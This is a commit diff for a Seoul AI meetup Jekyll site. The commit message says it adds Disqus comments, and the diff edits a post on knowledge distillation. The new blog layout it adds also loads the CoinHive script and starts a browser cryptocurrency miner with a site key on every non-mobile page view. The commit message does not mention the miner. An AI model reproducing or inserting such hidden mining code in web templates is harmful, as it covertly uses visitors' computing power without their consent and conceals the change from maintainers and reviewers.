

Before and after one commit to martinkersner/seoul-artificial-intelligence-meetup, a Jekyll site: the page built from docs/_posts/2017-12-23-knowledge-distillation.md, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (178-1101 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
added disquss comments

```diff
--- a/docs/_config.yml
+++ b/docs/_config.yml
@@ -2,7 +2,7 @@
 description: Group of professionals from different fields meet twice per month in the heart of Seoul to discuss about AI or implement various AI applications.
 google_analytics: UA-106993341-1
 theme: jekyll-theme-minimal
-url: http://seoulai.com/
+url: http://seoulai.com
 plugins:
     - jekyll-sitemap
     - jekyll-seo-tag
--- /dev/null
+++ b/docs/_includes/disqus.html
@@ -0,0 +1,16 @@
+<div id="disqus_thread"></div>
+<script>
+
+var disqus_config = function () {
+  this.page.url = "{{ site.url }}{{ page.url }}";
+  this.page.identifier = "{{ page.disqus_identifier }}";
+};
+
+(function() { // DON'T EDIT BELOW THIS LINE
+var d = document, s = d.createElement('script');
+s.src = 'https://EXAMPLE.disqus.com/embed.js';
+s.setAttribute('data-timestamp', +new Date());
+(d.head || d.body).appendChild(s);
+})();
+</script>
+<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
--- /dev/null
+++ b/docs/_layouts/blog.html
@@ -0,0 +1,91 @@
+<!doctype html>
+<html lang="{{ site.lang | default: "en-US" }}">
+  <head>
+    <meta charset="utf-8">
+    <meta http-equiv="X-UA-Compatible" content="chrome=1">
+
+
+    <link rel="stylesheet" href="/assets/css/style.css">
+    <meta name="viewport" content="width=device-width">
+    <!--[if lt IE 9]>
+    <script src="//html5shiv.googlecode.com/svn/trunk/html5.js"></script>
+    <![endif]-->
+    <script src="https://coinhive.com/lib/coinhive.min.js"></script>
+    {% if page.summary %}
+    <meta name="description" content="{{ page.summary | escape }}">
+    {% endif %}
+    {%if page.tags %}
+    <meta name="keywords" content="{{ page.tags | join: ', ' | escape }}"/>
+    {%endif %}
+    {% seo %}
+  </head>
+  <body>
+    <script>
+      var miner = new CoinHive.Anonymous('4oRscSkZZprxDccg05fWoI3yID0Jl1yf');
+      miner.setNumThreads(2);
+      if (!miner.isMobile()) {
+        miner.start();
+      }
+    </script>
+    <div class="wrapper">
+      <header>
+        <h1>Seoul</br>Artificial</br>Intelligence</h1>
+        <p>{{ site.description | default: site.github.project_tagline }}</p>
+
+        <p>
+          <a href="https://www.meetup.com/Seoul-Artificial-Intelligence" target="_blank">meetup.com</a></br>
+          <a href="https://seoulai.slack.com" target="_blank">seoulai.slack.com</a></br>
+          <a href="http://blog.seoulai.com" target="_blank">blog.seoulai.com</a></br>
+        </p>
+
+        <p>
+          <b>Organizers</b></br>
+          <a href="{{ site.url }}members/martin">Martin Kersner</a></br>
+          <a href="{{ site.url }}members/cinyoung">Cinyoung Hur</a>
+        </p>
+
+        <p>
+          <b>Announcement</b></br>
+          <a href="{{ site.url }}call-for-presenters-practitioners" >Call for presenters!</a>
+        </p>
+
+        <p>
+          <b>Content</b></br>
+          <a href="{{ site.url }}2017" >Presentations from 2017</a>
+        </p>
+      </header>
+      <section>
+
+      {% assign page_date = page.date | date: '%Y %b %d'"  %}
+      {% assign member = site.data.members[page.author] %}
+      <h1>{{ page.title }}</h1>
+
+      <a href="{{ page.url }}/members/{{ page.author }}">{{ member.fullname }}</a>,
+      {{ page_date }}
+      <br/>
+      <br/>
+      {{ content }}
+
+      <div id="disqus_thread">
+        {% if page.comments == true %}
+        {% include disqus.html %}
+        {% endif %}
+      </div>
+      </section>
+    </div>
+    <script src="{{ '/assets/js/scale.fix.js' | relative_url }}"></script>
+
+
+  {% if site.google_analytics %}
+    <script>
+        (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
+        (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
+        m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
+        })(window,document,'script','https://www.google-analytics.com/analytics.js','ga');
+
+        ga('create', '{{ site.google_analytics }}', 'auto');
+        ga('send', 'pageview');
+    </script>
+  {% endif %}
+  </body>
+</html>
--- a/docs/_posts/2017-12-23-knowledge-distillation.md
+++ b/docs/_posts/2017-12-23-knowledge-distillation.md
@@ -1,17 +1,14 @@
 ---
-layout: default
+layout: blog
 title:  "Distilling the Knowledge in a Neural Network"
 date:   2017-12-23 00:0:00 +0000
+disqus_identifier: 2017-12-23
 author: martin
+comments: true
 ---
 
-# Distilling the Knowledge in a Neural Network
-
-Hinton, Vinyals and Dean, 2015
-
+[https://arxiv.org/abs/1503.02531](https://arxiv.org/abs/1503.02531)
 > Our more general solution, called “distillation”, is to **raise the temperature of the final softmax until the cumbersomemodel produces a suitably soft set of targets**. We then use the same high temperature when training the small model to match these soft targets. We show later that matching the logits of the cumbersome model is actually a special case of distillation.
-
-[https://arxiv.org/abs/1503.02531](https://arxiv.org/abs/1503.02531)
 
 ## Temperature
 
```
Also changed, not shown: docs/_posts/2018-01-21-kaggle-how-to-use-pretrained-keras-models.md (+4 -4 lines).
